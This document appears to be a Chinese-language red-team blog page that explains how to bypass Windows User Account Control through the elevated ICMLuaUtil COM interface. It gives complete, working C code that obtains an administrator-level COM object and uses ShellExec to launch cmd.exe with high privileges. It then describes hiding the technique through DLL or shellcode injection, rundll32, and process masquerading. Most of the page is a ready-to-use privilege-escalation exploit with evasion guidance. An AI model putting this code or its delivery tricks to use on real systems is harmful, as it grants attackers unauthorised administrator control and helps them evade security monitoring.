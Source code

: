 # 通过com组件BypassUAC

## COM组件简介

> COM component（COM组件）是微软公司为了计算机工业的软件生产更加符合人类的行为方式开发的一种新的软件开发技术。在COM构架下，人们可以开发出各种各样的功能专一的组件，然后将它们按照需要组合起来，构成复杂的应用系统。

com组件本质上是二进制文件\(dll、exe,在windows系统内\),其调用方法与c++的类相似，程序可以通过被称为CLSID\(全局标识符\)作为索引在注册表内找到具体的二进制文件，这篇文章只会介绍应用方法，具体的逆向分析会在之后的文章内详细解释\(等公司买正版ida,现在用的盗版就不拿出来丢人了\)。

windows提供了一种com组件提权的方法，其原意大概是为了方便开发，所以当这种提提权方法的调用者是拥有微软签名的合法程序时\(其本质是校验PEB\)，会忽略uac弹窗，这也为了我们利用该技术埋下了隐患。

```text
HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void ** ppv)
{
    BIND_OPTS3 bo;
    WCHAR  wszCLSID[50];
    WCHAR  wszMonikerName[300];

    StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID)/sizeof(wszCLSID[0])); 
    HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName)/sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
    if (FAILED(hr))
        return hr;
    memset(&bo, 0, sizeof(bo));
    bo.cbStruct = sizeof(bo);
    bo.hwnd = hwnd;
    bo.dwClassContext  = CLSCTX_LOCAL_SERVER;
    return CoGetObject(wszMonikerName, &bo, riid, ppv);
}
```

在com组件中，有一个名为ICMLuaUtil的接口，这个接口提供了一个名为ShellExec的方法，顾名思义，可以执行任意传入的命令，如果我们能用提权的ICMLuaUtil接口调用ShellExec，那么我们就能获得一个不受限的管理员令牌。

## 流程

1. 初始化com库
2. 创建提升权限的ICMLuaUtil接口
3. 调用ICMLuaUtil的ShellExec方法
4. 弹出一个高权限的calc\(串戏了\)。

## 代码

```text
#include "BypassUAC.h"

HRESULT CoCreateInstanceAsAdmin(HWND hwnd, REFCLSID rclsid, REFIID riid, __out void** ppv)
{

	BIND_OPTS3 bo;
	WCHAR  wszCLSID[50];
	WCHAR  wszMonikerName[300];

	StringFromGUID2(rclsid, wszCLSID, sizeof(wszCLSID) / sizeof(wszCLSID[0]));
	HRESULT hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName) / sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
	if (FAILED(hr))
		return hr;
	memset(&bo, 0, sizeof(bo));

	bo.cbStruct = sizeof(bo);
	bo.hwnd = hwnd;
	bo.dwClassContext = CLSCTX_LOCAL_SERVER;
	return CoGetObject(wszMonikerName, &bo, riid, ppv);
}

BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable)
{
	HRESULT hr = 0;
	CLSID clsidICMLuaUtil = { 0 };
	IID iidICMLuaUtil = { 0 };
	ICMLuaUtil* CMLuaUtil = NULL;
	BOOL bRet = FALSE;


	CLSIDFromString(CLSID_CMSTPLUA, &clsidICMLuaUtil);
	IIDFromString(IID_ICMLuaUtil, &iidICMLuaUtil);

	CoCreateInstanceAsAdmin(NULL, clsidICMLuaUtil, iidICMLuaUtil, (PVOID*)(&CMLuaUtil));
	hr = CMLuaUtil->lpVtbl->ShellExec(CMLuaUtil, lpwszExecutable, NULL, NULL, 0, SW_SHOW);
	CMLuaUtil->lpVtbl->Release(CMLuaUtil);

	if (GetLastError())
	{
		return FALSE;
	}
	else {
		return TRUE;	
	}
}

int main() {
	CoInitialize(NULL);

	CMLuaUtilBypassUAC((LPWSTR)L"c:\\windows\\system32\\cmd.exe");
	CoUninitialize();
	return 0;
}
```



![](../.gitbook/assets/image%20%28141%29.png)

## 利用方法

### shellcode&dll注入

把这个代码写成一个dll，然后通过进程注入的方式获得一个合法的进程环境。

shellcode注入和dll注入差不多，只不过注入的具体dll被打成了shellcode，我记得有这么一个开源项目可以做到，原理类似于在dll二进制代码前写一个加载器

### rundll32

rundll32是windows提供的一个合法exe，它能把一个单独的dll拉起来成为一个进程，这也起来的进程也被windows视为合法。

### 伪装进程

原理我之前的文章写过[fakecommandline](../defense-evasion/fake-commandline.md)，这篇文章的基础上再添加对ldr的伪装，就能绕过PSAPI对进程的校验，具体的代码三号学生大佬写过[this](https://3gstudent.github.io/3gstudent.github.io/%E9%80%9A%E8%BF%87COM%E7%BB%84%E4%BB%B6IFileOperation%E8%B6%8A%E6%9D%83%E5%A4%8D%E5%88%B6%E6%96%87%E4%BB%B6/)。

## LINKS





